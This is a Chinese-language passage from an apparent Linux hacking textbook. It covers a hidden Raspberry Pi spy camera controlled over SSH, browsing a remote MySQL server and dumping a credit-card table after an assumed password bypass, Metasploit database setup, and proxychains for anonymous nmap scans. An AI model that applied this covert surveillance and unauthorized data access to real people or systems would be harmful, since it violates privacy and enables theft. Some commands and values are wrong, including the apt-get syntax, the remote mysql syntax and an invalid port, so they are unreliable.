SSH是Secure Shell的首字母缩写，它基本上使我们能够安全地连接到远程系统上的终端 -
这是多年前常见的不安全telnet的替代品。当我们构建Web服务器时，SSH使我们能够创建访问列表（可以使用此服务的用户列表），使用加密密码对用户进行身份验证，以及加密所有通信。这减少了不需要的用户使用远程终端的机会（由于添加的认证过程）或拦截我们的通信（由于加密）。可能最广泛使用的Linux
SSH服务是OpenSSH，它几乎安装在所有Linux发行版上，包括Kali。

系统管理员经常使用SSH来管理远程系统，而黑客经常使用SSH连接到受感染的远程系统，所以我们在这里也会这样做。在这个例子中，我们使用SSH设置一个远程Raspberry
Pi系统进行间谍活动，我称之为“Raspberry Spy Pi”。为此，你需要一个Raspberry
Pi和随之而来的Raspberry Pi相机模块。

不过，在我们这样做之前，使用现在熟悉的命令在您的Kali系统上启动OpenSSH：

kali \>service ssh start

我们将使用SSH来构建和控制远程间谍Raspberry Pi。如果您还不熟悉它，Raspberry
Pi是一款小巧但功能强大的信用卡大小的计算机，可作为远程监视工具使用。我们将使用带有相机模块的Raspberry
Pi作为远程间谍设备。您可以以低于50美元的价格购买几乎所有电子产品零售商（包括亚马逊）的Raspberry
Pi，您可以以15美元的价格购买相机模块。

在这里，我们将在与Kali系统相同的网络上使用Raspberry Spy
Pi，这允许我们使用私有的内部IP地址。当然，在现实世界中进行黑客攻击时，您可能希望将其设置在另一个远程网络上，但这将难以触及本书的范围。

#### *设置Raspberry Pi*

确保您的Raspberry Pi正在运行Raspbian操作系统，这只是另一个专门为Raspberry Pi
CPU移植的Linux发行版。您可以在https://www.raspberrypi.org/downloads/raspbian/找到Raspbian的下载和安装说明。您在本书中学到的几乎所有内容都适用于Raspberry
Pi上的Raspbian OS以及Kali，Ubuntu和其他Linux发行版。

下载并安装Raspbian操作系统后，您需要将Raspberry
Pi连接到显示器，鼠标和键盘，然后将其连接到互联网。如果这对您来说是全新的，请查看https://www.raspberrypi.org/learning/hardwareguide/上的说明。
设置好所有内容后，使用用户名pi和密码raspberry登录。

#### *构建Raspberry Spy Pi*

第一步是确保在Raspberry Spy
Pi上运行并启用SSH。默认情况下，SSH通常是关闭的，因此要启用它，请转到“首选项”菜单并启动Raspberry
Pi配置。然后转到**Interfaces**选项卡，在**SSH**旁边，单击**Enabled**（如果尚未选中），然后单击**OK**。

启用SSH后，您可以通过打开终端并输入以下内容在Raspberry Spy Pi上启动它：

kali \>service ssh start

接下来，您需要连接相机模块。如果你使用的是Raspberry
Pi版本3的板，那么只有一个地方可以连接它。关闭Pi，将模块连接到相机端口，然后重新打开。请注意，相机非常脆弱，绝不能与通用输入/输出（GPIO）引脚接触，否则，它可能会短路并烧坏。

现在，在SSH服务启动并运行的情况下，将Raspberry Spy
Pi放置在您家，学校或您想要监视的其他位置的某个位置。当然，它必须通过以太网电缆或理想情况下通过WiFi连接到局域网。（新的Raspberry
Pi 3和Raspberry Pi Zero都内置了WiFi。）

现在，您需要获取Raspberry
Pi的IP地址。正如您在第3章中学到的，您可以使用**ifconfig**获取Linux设备的IP地址：

pi \>ifconfig

我的Pi的IP地址是**192.168.1.101**，但请确保您使用的是Raspberry Spy
Pi的IP地址，无论我的地址出现在本章的哪个位置。现在，从您的Kali系统，您应该能够直接连接并控制您的Raspberry
Spy Pi并将其用作远程间谍系统。在这个简单的示例中，您的系统需要与Pi在同一网络上。

要从Kali系统通过SSH连接到远程Raspberry Spy
Pi，请输入以下内容，记住使用您自己的Pi的IP地址：

kali \>ssh pi\@192.168.1.101

pi\@192.168.1.101's password:

The programs included with the Debian GNU/Linux system are free software; the
exact distribution terms for each program are described in the

individual files in /usr/share/doc/\*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, the extent permitted by
applicable law

last login: Tues Jan. 1 12:01:01 2018

pi\@raspberyypi:: \$

Spy Pi会提示您输入密码。在这种情况下，默认密码是**raspberry**，除非您已更改它。

#### *配置相机*

接下来，我们需要配置相机。为此，请输入以下命令启动Raspberry Pi配置工具：

pi \>sudo raspi-config

这应该启动一个图形菜单，如图12-3所示。



*图123：Raspberry Pi配置工具*

向下滚动至6启用相机（**Enable
Camera**），然后按ENTER。现在，滚动到此菜单的底部并选择**Finish**并按**ENTER**，如图12-4所示。

*图12-4：完成配置*

当配置工具询问您是否要重新启动时，如图12-5所示，选择**Yes**，然后再次按**ENTER**。

*图12-5：重新启动Pi以启用更改。*

现在你的Raspberry Spy Pi相机应该启用并准备好进行间谍活动了！

#### *启动Spy*

一旦您的Raspberry Spy
Pi重新启动并且您已经从Kali终端通过SSH登录，您就可以开始使用它来拍摄静态照片了。

Raspbian操作系统有一个名为raspistill的应用程序，我们将用它来从我们的小Raspberry
Spy Pi中拍照。 在终端中输入**raspistill**以查看工具的帮助屏幕及其所有选项：

pi\@raspberrypi: raspistill

raspistill Camera App v1.3.8

Runs camera for specific time, and takes JPG capture at end if requested

usage: raspistill [options] Image parameter commands

­­snip­­

现在让我们使用Raspberry Spy
Pi拍摄一些远程的间谍照片吧！**raspistill**命令有很多你应该探索的选项，但在这里我们只使用默认值。要拍摄照片并将其另存为JPEG，请输入以下内容：

pi\@raspberrypi: raspistill -v -o firstpicture.jpg

raspistill Camera App v1.3.8

width 2592, Height 1944, quality 85, filename firstpicture.jpg Time delay 5000,
Raw no

­­snip­­

我们使用**-v**选项给我们详细的输出和**-o**选项告诉raspistill我们将要给它一个文件名，然后我们给出文件名。当我们在Raspberry
Spy
Pi上使用长列表格式列出文件时，我们可以看到文件**firstpicture.jpg**，如下所示：

pi\@raspberrypi: ls -l

total 2452

drwxr­xr­x 2 pi pi 4096 Mar 18 2019 Desktop

drwxr­xr­x 2 pi pi 4096 Mar 18 2019 Documents

drwxr­xr­x 2 pi pi 4096 Mar 18 2019 Downloads

­rw­r­­r­­ 1 pi pi 2472219 Mar 18 2019 firstpicture.jpg

drwxr­xr­x 2 pi pi 4096 Mar 18 2019 Music

drwxr­xr­x 2 pi pi 4096 Mar 18 2019 Pictures

­­snip­­

我们使用SSH在我们的远程Raspberry Spy Pi上拍摄了我们的第一张谍照！
随意进一步探索这种多功能武器。

### 从MYSQL中获取信息

MySQL是数据库驱动Web应用程序背后使用最广泛的数据库。在我们现代的Web
2.0技术时代，几乎每个网站都是数据库驱动的，这意味着MySQL拥有大部分网络的数据。

数据库是黑客的“金羊毛”。它们包含有关用户的重要信息以及信用卡号等机密信息。出于这个原因，黑客通常以数据库为目标。

与Linux一样，MySQL是开源和通用公共许可（GPL），你会发现它几乎预装在每个Linux发行版上。

作为免费，开源和强大的MySQL，MySQL已成为许多Web应用程序的首选数据库，包括WordPress，Facebook，LinkedIn，Twitter，Kayak，almart.com，Wikipedia和YouTube等热门网站。

其他流行的内容管理系统（CMS），如Joomla，Drupal和Ruby on
Rails也都使用MySQL。你明白了，如果您想开发或攻击Web应用程序的后端数据库，您应该了解MySQL。让我们开始吧。

#### *启动MySQL*

幸运的是，Kali已经安装了MySQL（如果您正在使用其他发行版，则可以从软件镜像库或直接从https：//www.mysql.com/downloads/下载并安装MySQL）。

要启动MySQL服务，请在终端中输入以下内容：

kali \>service mysql start

接下来，您需要通过登录进行身份验证。输入以下内容，并在提示输入密码时，只需按**ENTER**键：

kali \>mysql -u root -p

Enter password:

Welcome to MySQL monitor. Commands end with ; or \\g.

Your MySQL connection id is 4

Server version: 5.6.30­1 (Debian)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved

Oracle is a registered trademark of Oracle Corporation and/or its affiliates.
Other names may be trademarks of their respective owners

Type 'help;' or '\\h' for help. Type '\\c' to clear the current input statement

mysql \>

在MySQL的默认配置中，**root**用户的密码为空。显然，这是一个主要的安全漏洞，您应该在首次登录后添加密码来解决此问题。请注意，操作系统和MySQL的用户名和密码是独立且不同的。我们现在更改MySQL
root用户的密码以确保安全。

#### *与MySQL交互*

SQL是一种用于与数据库连接的解释型编程语言。数据库通常是关系数据库，这意味着数据存储在多个交互的表中，每个表都有一个或多个列和行中的值。

SQL有几种实现，每种都有自己的命令和语法，但这里有几个常用的命令：

**select**用于检索查找数据

**union**用于组合两个或多个select操作的结果

**insert**用于插入添加新数据

**update**用于修改更新现有数据

**delete**用于删除数据

您可以为每个命令提供条件，以便更具体地了解您要执行的操作。 例如，如下行

select user,password from customers where user='admin';

将返回customers表中用户值等于“admin”的任何用户的用户名和密码字段的值。

#### *设置MySQL密码*

通过输入以下内容，让我们看看已经在我们的MySQL系统中的用户。（请注意，MySQL中的命令以分号结束。）

mysql \>select user,host,password from mysql.user;

\+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­

\| user \| host \| password

\+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­

\|root \|localhost \|

\|root \|aphrodite.kali.org \|

\|root \|127.0.0.1 \|

­­snip­­

这表明root用户没有设置密码。我们给root分配一个密码。为此，我们将首先选择要使用的数据库。
您系统上的MySQL将附带一些已设置的数据库。使用**show**列出所有数据库，命令查看所有可用的数据库：

mysql \>show databases;

\+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+

\| Database \|

\+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+

\| information_schema \|

\| mysql \|

\| performance_schema \|

\+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+

3 rows in set (0.23 sec)

MySQL默认带有三个数据库，其中两个（**information_schema**和**performance_schema**）是我们在这里不会使用的管理数据库。我们将使用非管理数据库mysql，它包含在您的目标数据库中。要开始使用mysql数据库，请输入：

mysql \>use mysql;

Reading table information for completion of table and column names You can turn
off this feature to get a quicker startup with ­A

Database changed

这个命令将我们连接到mysql。现在，我们可以使用以下命令将root用户的密码设置为**hackers-arise**：

mysql \>update user set password = PASSWORD("hackers-arise") where user =
'root';

此命令将通过将用户的root密码设置为**hackers­ arise**来更新用户。

#### *访问远程数据库*

要访问localhost上的MySQL数据库，我们使用以下语法：

kali \>mysql -u \<username\> -p

如果没有给出主机名或IP地址，则此命令默认使用localhost上的MySQL实例。因此，要访问远程数据库，我们需要提供托管MySQL数据库的系统的主机名或IP地址。以下这是一个例子：

kali \>mysql -u root -p 192.168.1.101

这会将我们连接到192.168.1.101的MySQL实例并提示我们输入密码。出于演示目的，我将连接到局域网（LAN）上的MySQL实例。如果您在其他互联网网络上安装了MySQL系统，请在此处使用其IP地址。我假设您已设法绕过密码并以root身份登录系统（您已经知道默认情况下，mysql数据库没有密码）。

这打开了MySQL命令行界面，它为我们提供了**mysql\>**提示符。除了这个命令行界面，MySQL还有GUI界面
- 原生（MySQL Workbench）和第三方（Navicat和TOAD for
MySQL）。作为一名黑客，命令行界面可能是利用MySQL数据库的最佳机会，因此我们将重点关注这一点。作为未经授权的数据库参与者，您将不可能获得易于使用的
GUI。

现在我们以系统管理员身份登录，我们可以畅通无阻地浏览数据库。如果我们以普通用户身份登录，则我们的导航将受到系统管理员为该用户提供的权限的限制。

#### *连接到数据库*

通过访问系统，我们想要一探究竟。我们的下一步是找出是否有值得访问的数据库。以下是查找所访问系统上的数据库的命令：

mysql \>show databases;

\+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+

\| Database \|

\+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+

\| information schema \|

\| mysql \|

\| creditcardnumbers \|

\| performance_schema \|

\+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+

4 rows in set (0.26 sec)

啊哈！我们找到了一个值得探索的名字为**creditcardnumbers**的数据库。让我们尝试连接到它。

在MySQL中，与其他数据库管理系统（DBMS）一样，我们可以通过输入**use
databasename** 连接到我们感兴趣的数据库。

mysql \>use creditcardnumbers;

Database changed

数据库更改的响应表明我们现在已连接到**creditcardnumbers**数据库。

当然，不言而喻，数据库管理员不太可能如此容易地将数据库命名为信用卡号，因此您可能需要进行一些探索以找到感兴趣的数据库。

#### *数据库表*

我们现在已连接到**creditcardnumbers**数据库，可以进行一些探索以查看它可能包含的信息。数据库中的数据被组织成表格，每个表格可能包含一组不同的相关数据。我们可以通过输入以下命令找出此数据库中的表：

mysql \>show tables;

\+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+

\| Tables_in_creditcardnumbers \|

\+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+

\| cardnumbers \|

\+­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­­+

1 row in set (0.14 sec)

在这里，我们可以看到该数据库中只有一个表，称为**cardnumbers**。通常，数据库中会有很多表，因此您可能需要进行更多的监听。在这个示例数据库中，我们很幸运能够将注意力集中在这个单独的表格中，以提取黑客的金羊毛！

既然我们想要检查一个表，我们需要了解该表的结构。一旦我们知道如何设置表，我们就可以提取相关信息。

您可以使用**describe**语句查看数据库的表的结构，如下所示：

mysql \>describe cardnumbers;

\+­­­­­­­­­­­­­­­+­­­­­­­­­­­­­­+­­­­­­­­­+­­­­­­­­­­­+­­­­­­­­­+­­­­­­­­­+

\| Field \| Type \| Null \| Key \| Default \| Extra \|

\+­­­­­­­­­­­­­­­+­­­­­­­­­­­­­­+­­­­­­­­­+­­­­­­­­­­­+­­­­­­­­­+­­­­­­­­­+

\| customers \| varchar(15) \| YES \| \| NULL \| \|

\| address \| varchar(15) \| YES \| \| NULL \| \|

\| city \| varchar(15) \| YES \| \| NULL \| \|

\| state \| varchar(15) \| YES \| \| NULL \| \|

\| cc \| int(12) \| NO \| \| 0 \| \|

\+­­­­­­­­­­­­­­­+­­­­­­­­­­­­­­+­­­­­­­­­+­­­­­­­­­­­+­­­­­­­­­+­­­­­­­­­+

MySQL使用我们感兴趣的表结构的关键信息进行响应。我们可以看到每个字段的名称以及它所拥有的数据类型（通常是文本类型varchar或整数类型int）。我们还可以看到它是否会接受NULL值，密钥（如果存在）（密钥链接表），字段可能具有的任何默认值，以及最后的任何额外信息，例如注释。

#### *查看数据*

要实际查看表中的数据，我们使用**SELECT**命令。
**SELECT**命令要求您知道以下信息：

-   包含要查看的数据的表

-   该表中包含要查看的数据的列

我们按以下格式列出：

SELECT columns FROM table

作为查看所有列数据的便捷快捷方式，我们可以使用星号作为通配符，而不是键入我们想要查看的每个列名。因此，要查看**cardnumbers**表中所有数据的转储，我们输入以下内容：

mysql \>SELECT \* FROM cardnumbers;

\+­­­­­­­­­­­+­­­­­­­­­­­­­­­+­­­­­­­­­­­­­+­­­­­­­­­+­­­­­­­­­­­­­­+

\| customers \| address \| city \| state \| cc \|

\+­­­­­­­­­­­+­­­­­­­­­­­­­­­+­­­­­­­­­­­­­+­­­­­­­­­+­­­­­­­­­­­­­­+

\| Jones \| 1 Wall St \| NY \| NY \| 12345678 \|

\| Sawyer \| 12 Piccadilly \| London \| UK \| 234567890 \|

\| Doe \| 25 Front St \| Los Angeles \| CA \| 4567898877 \|

\+­­­­­­­­­­­+­­­­­­­­­­­­­­­+­­­­­­­­­­­­­+­­­­­­­­­+­­­­­­­­­­­­­­+

如您所见，MySQL已将**cardnumbers**表中的所有信息显示在屏幕上。
我们找到了黑客的金羊毛！

#### *PostgreSQL与Metasploit*

**PostgreSQL**，或**Postgres**，是另一个开源关系数据库，由于其能够轻松扩展并处理繁重的工作负载，因此常用于非常大的互联网应用程序。它于1996年7月首次发布，由一大批名为PostgreSQL全球开发组的开发人员维护。

默认情况下，PostgreSQL也安装在Kali中，但是如果您使用的是另一个Linux发行版，它可能会在您的存储库中，您可以通过输入以下命令来安装它：

kali \>apt-get postgres install

作为一名黑客，你会发现PostgreSQL特别重要，因为它是最广泛使用的渗透测试和攻击框架Metasploit的默认数据库。Metasploit使用PostgreSQL存储其模块，以及扫描和利用的结果，以便于在渗透测试或黑客攻击中使用。出于这个原因，我们将在Metasploit的上下文中使用PostgreSQL。

与Linux中的几乎所有服务一样，我们可以通过输入服务来启动PostgreSQL应用程序启动，如下：

kali \>service postgresql start

随着PostgreSQL的启动和运行，让我们启动**Metasploit**：

kali \>msfconsole

请注意，当Metasploit完成启动时，您将看到msf\>提示符。

教您如何使用Metasploit进行黑客攻击和开发目的超出了本书的范围，但在这里我们将建立Metasploit将其信息存储在其中的数据库。

在Metasploit运行的情况下，我们可以使用以下命令设置PostgreSQL，以便它存储来自系统上任何Metasploit活动的数据：

msf \>msfdb init

[\*] exec :msfdb init

Creating database use 'msf'

Enter password for new role

Enter it again:

Creating databases 'msf' and 'msf_test'

Creating configuration file /usr/share/metasploit­framework/config/database.yml

Creating initial database schema

接下来，我们需要以root身份登录**Postgres**。在这里，我们在命令前加上**su**，即“switch
user”命令，以获取root权限：

msf \>su postgres

[\*] su postgres

postgres\@kali:/root\$

登录Postgres时，您会看到提示已更改为**postgres\@kali:/root\$**，表示应用程序，主机名和用户。

在下一步中，我们需要创建用户和密码，如下所示：

postgres\@kali:/root\$ createuser msf_user -P

Enter Password for new role:

Enter it again:

我们使用带有**createuser**命令的**-P**选项创建用户名msf_user。

然后输入所需的密码两次。接下来，您需要创建数据库并为msf_user授予权限。将数据库命名为hackers_arise_db，如下所示：

postgres\@kali:/root\$ createdb - owner=msf_user hackers_arise_db

postgres\@kali:/root\$ exit

当您使用exit命令退出Postgres时，终端将回退到msf\>提示符。

接下来，我们必须通过定义以下内容将我们的Metasploit控制台msfconsole连接到PostgreSQL数据库：

-   **user**

-   **password**

-   **host**

-   **database name**

在我们的例子中，我们可以使用以下命令将msfconsole连接到我们的数据库：

msf \>db_connect msf_user:password\@127.0.0.1/hackers_arise_db

当然，您需要提供之前使用的密码。IP地址是本地系统（localhost）的IP地址，因此除非在远程系统上构建此数据库，否则可以使用127.0.0.1。

最后，我们可以检查PostgreSQL数据库的状态以确保它已连接：

msf \>db_status

[\*] postgresql connected to msf

如您所见，Metasploit响应返回PostgreSQL数据库已连接并可以使用。现在，当我们使用Metasploit进行系统扫描或运行漏洞时，结果将存储在PostgreSQL数据库中。此外，Metasploit现在将其模块存储在Postgres数据库中，使得搜索正确的模块变得更加容易和快捷！

### 总结

Linux有许多服务在后台运行，直到用户需要它们 Apache Web
Server是使用最广泛的，但是黑客也应该熟悉MySQL，SSH和PostgreSQL来完成各种任务。在本章中，我们介绍了开始使用这些服务的绝对基础知识。一旦您对Linux系统感到满意，我建议您进一步探索这些服务。

13
--

安全和匿名
----------

BECOMING SECURE AND ANONYMOUS

今天，几乎我们在互联网上做的一切都被跟踪。无论是谷歌跟踪我们的在线搜索、网站访问和电子邮件，还是美国国家安全局(NSA)对我们的所有活动进行编目，无论谁在跟踪我们，我们的每一次在线活动都会被记录、编入索引，然后被挖掘出来，以造福他人。普通个人，尤其是黑客，需要了解如何限制这种跟踪，并在网上保持相对匿名，以限制这种无处不在的监视。

在本章中，我们将介绍如何使用以下四种方法匿名(或尽可能接近)浏览互联网：

-   The Onion Network

-   洋葱网络

-   代理服务器

-   虚拟专用网络

-   私有加密的电子邮件

没有一种方法能保证你的活动不被窥探，如果有足够的时间和资源，任何事情都能被追踪。然而，这些方法可能会使跟踪器的工作更加困难。

### 互联网是如何出卖我们的

首先，让我们从更高的层次来讨论我们在互联网上的活动是如何被跟踪的。我们不会讨论所有的跟踪方法，也不会过多地讨论任何一种方法的细节，因为这超出了本书的范围。事实上，这样的讨论可能会占用一整本书的篇幅。

首先，您的IP地址标识您在互联网上的身份。从您的机器发送的数据通常会被标记为您的IP地址，从而使您的活动易于跟踪。其次，谷歌和其他电子邮件服务将“阅读”您的电子邮件，寻找关键词，以更有效地为您服务广告。让我们先来看看IP地址是如何在互联网上泄露信息的。

当您通过互联网发送数据包时，它包含数据的源和目标的IP地址。通过这种方式，数据包知道它要去哪里以及在哪里返回响应。每个数据包通过多个互联网路由器跳转，直到找到它的目的地，然后跳转回发送方。对于一般的互联网冲浪，每一跳都是数据包通过路由器到达目的地。发送方和目的地之间可以有多达20-30跳，但通常任何数据包在不到15跳的时间内就能找到到达目的地的路径。

当数据包在互联网上传播时，任何截获数据包的人都可以看到是谁发送了数据包，它到过哪里，它要去哪里。这是网站可以告诉您到达目的地并自动登录的一种方式，也是有人可以跟踪您在互联网上的位置的方式。

要查看数据包在您和目的地之间的跳转情况，可以使用**traceroute**命令，如下所示。只需输入**traceroute**和目标IP地址或域，该命令将向目标发送数据包并跟踪这些数据包的路由。

kali \>traceroute google.com

traceroute to google.com (172.217.1.78), 30 hops max, 60 bytes packets

1 192.168.1.1 (192.168.1.1) 4.152 ms 3.834 ms 32.964 ms

2 10.0.0.1 (10.0.0.1) 5.797 ms 6.995 ms 7.679 ms

3 96.120.96.45 (96.120.96.45) 27.952 ms 30.377 ms 32.964 ms

­­snip­­

18 lgal15s44­in­f14.le100.net (172.217.1.78) 94.666 ms 42.990 ms 41.564 ms

如你所见，ww.google.com与我的互联网距离是18跳。您的结果可能会不同，因为您的请求来自不同的位置，而且谷歌在全球有许多服务器。此外，数据包在互联网上并不总是采用相同的路由，因此您可能会将另一个信息包从您的地址发送到相同的站点，并接收不同的路由。让我们看看如何用Tor网络来掩饰这一切。

### 洋葱路由系统

上世纪90年代，美国海军研究办公室(ONR)着手开发一种匿名浏览互联网进行间谍活动的方法。该计划是建立一个路由器网络，它与互联网的路由器是分开的，可以加密流量，并且只存储前一个路由器的未加密IP地址-这意味着一路上所有其他路由器地址都加密了。他们的想法是，任何观察流量的人都无法确定数据的来源或目的地。

这项研究在2002年被称为“洋葱路由器(Tor)项目”，现在任何人都可以使用它在web上进行相对安全且匿名的导航。

#### *Tor是如何工作的*

通过Tor发送的数据包不是通过常规路由器发送的，而是通过全世界7000多台路由器组成的网络发送的，这要感谢志愿者们允许Tor使用他们的计算机。在使用完全独立的路由器网络的基础上，Tor加密每个数据包的数据、目的地和发送方IP地址。在每一跳，接收到的信息被加密，然后在下一跳被解密。这样，每个包只包含关于路径上的前一跳的信息，而不包含源的IP地址。如果有人拦截流量，他们只能看到上一跳的IP地址，网站所有者只能看到发送流量的最后一个路由器的IP地址(参见图13-1)，这确保在互联网上的相对匿名性。



*图13-1：Tor如何使用加密流量数据*

要启用Tor，只需从https://www.torproject.org/安装Tor浏览器。一旦安装完毕，它将如图13
-2所示，您可以像使用任何老式互联网浏览器一样使用它。通过使用这个浏览器，您将通过一组单独的路由器来浏览互联网，并且能够在不被“老大哥”（隐喻某超级大国）跟踪的情况下访问站点。不幸的是，权衡的结果是通过Tor浏览器浏览会慢得多，因为没有那么多路由器，网络带宽有限。

*图13-2：Tor浏览器的登录页面*

除了能够访问传统互联网上几乎任何网站外，Tor浏览器还能够访问暗网。构成暗网的网站需要匿名，因此它们只允许通过Tor浏览器访问，并且它们的地址以.onion结尾用于其顶级域名（TLD）。暗网因非法活动而臭名昭着，但也有一些合法的服务。但请注意：在访问暗网时，您可能会遇到很多人会觉得冒犯的内容。

#### *安全问题*

美国和其他国家的情报和间谍机构认为Tor网络是对国家安全的威胁，认为这样一个匿名网络可以让外国政府和恐怖分子在不被监视的情况下进行交流。因此，许多强大的、雄心勃勃的研究项目正在努力打破Tor的匿名性。

Tor的匿名曾经被这些当局破坏过，而且很可能会再次被破坏。例如，NSA运行自己的Tor路由器，这意味着当您使用Tor时，您的流量可能正在通过NSA的路由器。如果您的流量正在退出NSA的路由器，那就更糟了，因为退出路由器总是知道您的目的地。NSA还有一种被称为“流量关联”(traffic
correlation)的方法，该方法涉及寻找进出流量的模式，能够打破Tor的匿名性。虽然这些破解Tor的尝试不会影响Tor在商业服务(如Google)中隐藏您身份的有效性，但它们可能会限制浏览器在间谍机构中保持匿名的有效性。

### 代理服务器

在互联网上实现匿名的另一种策略是使用代理，代理是充当流量中间商的中间系统：用户连接到代理，并在传递代理之前向其提供流量的IP地址(参见图13-3)。当流量从目标返回时，代理将流量发送回源IP。通过这种方式，流量似乎来自代理，而不是原始IP地址。



*图13-3:通过代理服务器运行流量*

当然，代理可能会记录您的流量，但调查人员必须获得传票或搜查令才能获得这些日志。为了使您的流量更加难以跟踪，您可以在称为代理链的策略中使用多个代理，这一策略我们将在本章稍后讨论。

Kali
Linux有一个优秀的代理工具，称为proxychain，您可以设置它来隐藏您的流量。proxychain命令的语法很简单，如下所示:

kali \>proxychains \<the command you want proxied\> \<arguments\>

您提供的参数可能包括一个IP地址。例如，如果您想使用命令nmap以通过代理链匿名方式扫描一个站点，则应输入以下内容：

kali \>proxychains nmap -sT - Pn \<IP address\>

这将通过代理将nmap
-sS扫描命令隐身发送到给定的IP地址。然后，该工具自己构建代理链，因此您不必担心它。

#### *在配置文件中设置代理*

在本节中，我们为要使用的proxychain命令设置了一个代理。与Linux/Unix中的几乎所有应用程序一样，proxychain的配置是由配置文件管理的，即是/etc/proxychain
.conf。使用以下命令在您选择的文本编辑器中打开配置文件(如果需要，用您选择的编辑器替换leafpad):

kali \>leafpad /etc/proxychains.conf

您应该看到类似于代码清单13-1中所示的文件。

\# proxychains.conf VER 3.1

\# HTTP, SOCKS4, SOCKS5 tunneling proxifier with DNS.

\# The option below identifies how the ProxyList is treated.

\# only one option should be uncommented at time,

\# otherwise the last appearing option will be accepted

\#

\# dynamic_chain

\#

\# Dynamic ­ Each connection will be done via chained proxies

\# all proxies chained in the order as they appear in the list

\# at least one proxy must be online to play in chain

\# (dead proxies are skipped)

\# otherwise EINTR is returned to the app strict chain

\# Strict ­ Each connection will be done via chained proxies

\# all proxies chained in the order as they appear in the list

\# all proxies must be online to play in chain

\# otherwise EINTR is returned to the app M

­­snip­­

*清单13-1：proxychains.conf文件*

将此文件向下滚动到第61行，您应该看到ProxyList部分，如清单13-2所示。

[ProxyList]

\# add proxy here...

\# meanwhile

\# defaults set to "tor"

socks4 127.0.0.1 9050

*清单13-2：用于添加代理的配置文件部分*

我们可以通过输入要在此列表中使用的代理的IP地址和端口来添加代理。现在，我们将使用一些免费代理。你可以通过谷歌搜索“免费代理”或使用网站http://www.hidemy.name找到免费代理，如图3-4。
但请注意，在现实黑客活动中使用免费代理并不是一个好主意。我将在本章后面详细介绍这一点。这里使用的示例仅用于教育目的。

*图13-4：http://www.hidemy.name中的免费代理*

填写表单中的详细信息或单击搜索，然后使用以下格式将其中一个生成的代理添加到proxychains.conf文件中：

Type IPaddress Port

这是一个例子：

[ProxyList]

\# add proxy here...

socks4 114.134.186.12 22020

\# meanwhile

\# defaults set to "tor"

\# socks4 127.0.0.1 9050

需要注意的是，如果您没有输入自己的代理，那么proxychain默认使用Tor。清单13-2中的最后一行指示代理链首先通过主机127.0.0.1上的9050端口发送流量（默认Tor配置）。如果您没有添加自己的代理，并希望使用Tor，那么请保持现状。如果您不使用Tor，您将需要注释掉这一行(在它之前添加一个\#)。

虽然我很喜欢Tor，但它通常很慢。而且，由于NSA已经破解了Tor，我不太可能依赖它的匿名性。因此，我注释掉这一行并添加自己的代理集。

我们来测试一下。在本例中，我将打开浏览器Firefox，通过代理发送流量，让它匿名导航到https://www.hackers-arise.com/。

命令如下:

kali \>proxychains firefox
[www.hackers-arise.com](http://www.hackers-arise.com/)

这将通过我选择的代理成功地在Firefox中打开https://www.hackers-arise.com/并将结果返回给我。对于任何跟踪此流量的人来说，似乎是我的代理导航到了https://www.hackers-arise.com/，而不是我的IP地址。

#### *一些更有趣的选择*

现在我们已经让proxychain工作了，让我们看看可以通过proxychain.conf文件配置的其他选项。正如我们现在所设置的，我们只是使用一个代理。但是，我们可以放入多个代理并使用它们，我们可以使用列表中的有限数量，或者我们可以让proxychain随机改变顺序。

让我们尝试所有这些选项。

##### 添加更多的代理

首先，让我们向列表中添加更多代理。回到http://www.hidemy.name并找到更多的代理IP地址。然后在proxychain
.conf文件中添加更多的代理，如下所示:

[ProxyList]

\# add proxy here...

socks4 114.134.186.12 22020

socks4 188.187.190.59 8888

socks4 181.113.121.158 335551

现在保存这个配置文件，并尝试运行以下命令:

kali \>proxychains firefox www.hackers-arise.com

您不会注意到任何差异，但是您的数据包现在正在通过几个代理进行传输。

##### 动态链接

